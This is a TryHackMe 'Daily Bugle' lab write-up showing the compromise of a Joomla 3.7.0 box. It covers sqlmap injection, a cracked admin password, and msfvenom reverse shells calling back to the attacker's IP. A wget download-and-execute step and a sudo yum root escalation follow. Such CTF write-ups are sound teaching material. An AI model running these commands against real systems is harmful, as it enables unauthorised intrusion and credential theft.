 # Daily Bugle - TryHackMe

Start with an nmap:

```
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ nmap -sV -sC -Pn 10.10.159.172
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 08:30 EDT
Nmap scan report for 10.10.159.172
Host is up (0.033s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.59 seconds
```

Going on the hosted website gives us this:

![](2021-03-14-08-32-10.png)

In order to try and get the version of Joomla the website utilises, I am using metasploit module `scanner/http/joomla_version`:

![](2021-03-14-08-56-27.png)

Okay, so we now know the Joomla version is 3.7.0, let's see if there are any exploits for this:

![](2021-03-14-08-58-29.png)

Exploit [42033](https://www.exploit-db.com/exploits/42033) on ExploitDB showcases an SQLi on the parameter `list[fullordering]`

I am going to run SQLMap on the target and check whether we have an injection vector:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering]

...

sqlmap identified the following injection point(s) with a total of 1900 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 7858 FROM(SELECT COUNT(*),CONCAT(0x716a6a7a71,(SELECT (ELT(7858=7858,1))),0x71626b6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 5409 FROM (SELECT(SLEEP(5)))sDtF)

```

Okay, so the parameter is injectable! Let's see if we can dump the database:

```        
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering] --dbs

...

available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

I'm going to explore the joomla database and see what tables are in there:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering] --tables -D joomla
```

Within the list is the table #__users. Let's see if we can dump this table:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.159.172/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -p list[fullordering] --tables -D joomla -T \#__users --dump
```

SQLMap cannot retrieve the columns so I opt for using a wordlist to bruteforce check common collons, and, it finds the following collumns:

```
[09:36:41] [INFO] retrieved: id                                                                                       [09:36:41] [INFO] retrieved: name                                                                                               
[09:36:42] [INFO] retrieved: username                                                                                           
[09:36:45] [INFO] retrieved: email                                                                                              
[09:37:05] [INFO] retrieved: password
```

I end the bruteforce check early, as these columns are sufficient, and am left with the dumped table:

![](2021-03-14-09-40-30.png)

Okay, we have a hash. I start up John with the infamous rockyou wordlist:

![](2021-03-14-09-50-07.png)

Great! We have a username and password combo:
jonah:spiderman123

I head over to /administrator and input the username and password - success! We are in the admin panel.. let's see if we can get a shell.

I notice that I can edit a post and upload an image, however, I have been able to upload a .txt file, and, once it's uploaded, I can access it from the /images/ directory:

![](2021-03-14-10-08-57.png)

![](2021-03-14-10-09-05.png)

So I will create a meterpreter reverse tcp shell to upload using msfvenom:

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p php/reverse_php LHOST=10.9.3.215 LPORT=4444 -f raw > shell.php 
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload                                                                                      
No encoder specified, outputting raw payload                                                                                            
Payload size: 3049 bytes 
```

I then create a Joomla extension by creating a .xml file:

![](2021-03-16-06-09-31.png)

And then zipping up this with the php shell script:

```
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ zip mod_shell.zip mod_shell.php mod_shell.xml
  adding: mod_shell.php (deflated 69%)
  adding: mod_shell.xml (deflated 41%)
```

And uploading it to through joomla admin via Extensions/Manage/Install (top menu):

![](2021-03-16-06-10-54.png)

I then enable the module in the settings, and place it in a given position:

![](2021-03-16-06-13-49.png)

![](2021-03-16-06-14-05.png)

Then I save, and start up netcat listening on port 4444:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444  
listening on [any] 4444 ...
```

And then navigate to the front-end website again in order to load our php module, and we have a shell!

![](2021-03-16-06-15-14.png)

However, I need a better shell; this one keeps dying after the webserver times me out, and it's just kinda ugly.. Let's see if we can get a meterpreter shell:

On my local machine I create a meterpreter binary and host it on a webserver:

```
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.9.3.215 LPORT=4443 -f elf > shell.elf                                            1 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

                                                                                                                                                
┌──(kali㉿kali)-[~/TryHackMe/DailyBugle]
└─$ python -m SimpleHTTPServer                                                                  
Serving HTTP on 0.0.0.0 port 8000 ...
```

Then on the target I download and execute the binary:

```
wget http://10.9.3.215:8000/shell.elf ./shell.elf
chmod +x shell.elf 
./shell.elf
```

And, in metasploit, I have already setup the reverse connection, and wholla, we have the shell:

![](2021-03-16-06-30-38.png)

Now we need to look at privesc. Initially, I noticed the file configuration.php, and upon catting it, we see some passwords:

![](2021-03-16-09-01-40.png)

And, luckily, the same password is being used for the jjameson account on the box!

![](2021-03-16-09-02-42.png)

Now, after getting the user flag, we can look into privesc. Checking sudo permissions we see that we have NOPASSWD for /usr/bin/yum:

![](2021-03-16-09-04-13.png)


Doing some research on [GTFOBins](https://gtfobins.github.io/gtfobins/yum/), it seems there may be a privesc involving yum not dropping the escalated privileges.

After creating a custom YUM plugin which executes /bin/sh, we have root:

![](2021-03-16-09-16-15.png)

